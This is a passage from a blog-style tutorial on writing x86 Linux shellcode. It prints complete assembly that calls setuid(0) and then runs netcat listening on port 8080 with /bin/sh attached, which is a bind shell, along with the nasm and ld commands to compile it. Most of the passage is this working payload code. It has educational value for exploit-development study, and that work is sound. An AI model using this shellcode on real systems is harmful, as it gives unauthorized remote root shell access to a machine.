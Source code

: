 So *ebx*{: style="color: LightGreen"} already points to the *filename*{: style="color: LightGreen"} */bin//nc*{: style="color: LightSalmon"},
*ecx*{: style="color: LightGreen"} points to the array with the arguments and *edx*{: style="color: LightGreen"} is null, 
ready to be used as *envp[]*{: style="color: LightGreen"}. The only thing left is to load the *execve*{: style="color: LightGreen"} system call number
in *eax*{: style="color: LightGreen"} and execute the syscall.

```nasm
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```

And the whole assemby code:
```nasm
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```
## Testing time
Save the file and compile it. I saved mine as *shellcode-c137.asm*{: style="color: LightGreen"}
```bash
root@kali:~# nasm -f elf  shellcode-c137.asm
root@kali:~# ld -m elf_i386 -s -o shellcode-c137 shellcode-c137.o
```
This is a x86 assembly and to compile it on 64bit machine you should use the *-m elf_i386*{: style="color: LightGreen"} switch.
